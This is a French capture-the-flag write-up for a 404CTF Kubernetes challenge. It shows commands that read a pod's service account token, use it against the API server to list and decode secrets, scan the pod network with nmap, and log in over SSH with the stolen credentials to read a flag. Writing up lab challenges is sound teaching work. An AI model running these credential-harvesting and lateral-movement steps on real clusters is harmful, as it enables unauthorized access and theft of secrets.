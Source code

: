 # Introduction

```
Les nuages menaçants 2/3

Après avoir trouvé les secrets du nuage, vous les racontez à Proust. Celui-ci vous demande alors d'aller
explorer le nuage plus en profondeur.
 
Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN
Le challenge peut prendre quelques minutes à se lancer.
Le flag est dans /flag.txt.
```


## Challenge

## Solution

Si on affiche l'environnement :

```sh
$ env
# ...
KUBERNETES_SERVICE_PORT_HTTPS=443                                                                        
KUBERNETES_SERVICE_PORT=443
HOSTNAME=start
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
PWD=/
NAMESPACE=default
HOME=/root
KUBERNETES_PORT_443_TCP=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.43.0.1
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
KUBERNETES_SERVICE_HOST=10.43.0.1
KUBERNETES_PORT=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
APISERVER=10.43.0.1:443
# ...
```

Initialiser son accès à l'API :

```sh
export APISERVER=${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT_HTTPS}
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
export CACERT=${SERVICEACCOUNT}/ca.crt
alias kurl="curl --cacert ${CACERT} --header \"Authorization: Bearer ${TOKEN}\""
# kube api info (cidr and services ips)
kurl -v https://$APISERVER/api
# lister ses permissions depuis le pod
kurl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"kind\":\"SelfSubjectRulesReview\",\"apiVersion\":\"authorization.k8s.io/v1\",\"metadata\":{\"creationTimestamp\":null},\"spec\":{\"namespace\":\"default\"},\"status\":{\"resourceRules\":null,\"nonResourceRules\":null,\"incomplete\":false}}\x0a' \
    "https://$APISERVER/apis/authorization.k8s.io/v1/selfsubjectrulesreviews"
#> permissions ...
```

En listant les droits, on remarque qu'on ne peut que lister les secrets. On trouve notamment dans le 
namespace `404ctf` :

```sh
kurl -v https://$APISERVER/api/v1/secrets/
# ...        
#      "data": {                                                                                          
#        "password": "bGVzX251YWdlcw==",
#        "user": "cHJvdXN0" 
#      },       
#      "type": "Opaque"
# ... 
```

En décodant en base64, cela donne :

```
password: les_nuages
user: proust
```

Cela donne forcément accès à quelque chose ! Mais quoi ?
Après de nombreux autres essais via l'API server, on ne trouve pas grand chose. Sl faut tenter autre 
chose.

En lisant les binaires, on trouve `nmap`. Intéressant !
En listant les interfaces :

```sh
$ ip r
default via 10.42.0.1 dev eth0                                                                           
10.42.0.0/24 dev eth0 proto kernel scope link src 10.42.0.14              
10.42.0.0/16 via 10.42.0.1 dev eth0
```

Utiliser `nmap` sur 10.42.0.0/16 en cherchant les connexions tcp et sur les ports kubernetes en suivant 
les informations de :

- https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/pentesting-kubernetes-services#finding-exposed-pods-via-port-scanning

```sh
#nmap -n -T4 -p 443,2379,6666,4194,6443,8443,8080,10250,10255,10256,9099,6782-6784,30000-32767,44134 <pod_ipaddress>/16
nmap -n -T4 -p 443,2379,6666,4194,6443,8443,8080,10250,10255,10256,9099,6782-6784,30000-32767,44134 10.42.0.0/16

Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-24 22:55 UTC                                          
Nmap scan report for 10.42.0.0 
Host is up (0.0015s latency). 
Not shown: 2780 filtered ports                      
PORT      STATE SERVICE
443/tcp   open  https                               
31301/tcp open  unknown                             
32623/tcp open  unknown   
MAC Address: 62:AB:D4:B0:52:9C (Unknown)

Nmap scan report for 10.42.0.1
Host is up (0.00073s latency).
Not shown: 2778 closed ports
PORT      STATE SERVICE
443/tcp   open  https
6443/tcp  open  sun-sr-https
10250/tcp open  unknown
31301/tcp open  unknown
32623/tcp open  unknown
MAC Address: 62:AB:D4:B0:52:9C (Unknown)

# All 2783 scanned ports on 10.42.0.11 are closed

Nmap scan report for 10.42.0.12
Host is up (0.00080s latency).
Not shown: 2782 closed ports
PORT      STATE SERVICE
10250/tcp open  unknown
MAC Address: E6:68:C6:A0:02:2E (Unknown)

# All 2783 scanned ports on 10.42.0.13 are closed
# All 2783 scanned ports on 10.42.0.15 are closed

Nmap scan report for 10.42.0.16
Host is up (0.00083s latency).
Not shown: 2782 closed ports
PORT     STATE SERVICE
8443/tcp open  https-alt
MAC Address: BE:C1:93:CE:75:30 (Unknown)

Nmap scan report for 10.42.0.17
Host is up (0.00086s latency).
Not shown: 2782 closed ports
PORT    STATE SERVICE
443/tcp open  https
MAC Address: B2:A7:92:99:00:3B (Unknown)
```

Tous ces services ont donné une erreur 404:

- http://10.42.0.1:31301 (NodePort)
- http://10.42.0.1:32623 (NodePort)
- http://10.42.0.16:8443 (Port-Forward)
- http://10.42.0.17:443 (exposed service ?)

Essayer plus large :

```sh
nmap -n -T4 10.42.0.0/16

Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-24 23:35 UTC                                          
Nmap scan report for 10.42.0.0                                                                           
Host is up (0.0018s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
MAC Address: 62:AB:D4:B0:52:9C (Unknown)

Nmap scan report for 10.42.0.1
Host is up (0.00077s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
MAC Address: 62:AB:D4:B0:52:9C (Unknown)

# All 2783 scanned ports on 10.42.0.11 are closed
# All 2783 scanned ports on 10.42.0.12 are closed

Nmap scan report for 10.42.0.13                                                                          
Host is up (0.00078s latency).                                                                           
Not shown: 999 closed ports                                                                              
PORT   STATE SERVICE                                                                                     
22/tcp open  ssh                                                                                         
MAC Address: 3A:48:4B:29:31:DB (Unknown)  

# All 2783 scanned ports on 10.42.0.15 are closed

Nmap scan report for 10.42.0.16
Host is up (0.00078s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
8000/tcp open  http-alt
8443/tcp open  https-alt
9000/tcp open  cslistener
9100/tcp open  jetdirect
MAC Address: BE:C1:93:CE:75:30 (Unknown)

Nmap scan report for 10.42.0.17
Host is up (0.00090s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
MAC Address: B2:A7:92:99:00:3B (Unknown)
```

Il y a un port `22` sur 10.42.0.13 !!
Et ssh est installé sur le pod ... il faut essayer !

```sh
ssh root@10.42.0.13
> password:
```

Il faut un password que nous n'avons pas... peut être ceux trouvés précédemment ? :p

```sh
ssh proust@10.42.0.13
> password: ********** # les_nuages
```

Nous y sommes !
En accord avec les informations du challenges, il faut lire `/flag.txt`:

```sh
cat /flah.txt
404CTF{A_la_Recherche_De_La_Racine}
```

TADAAM !
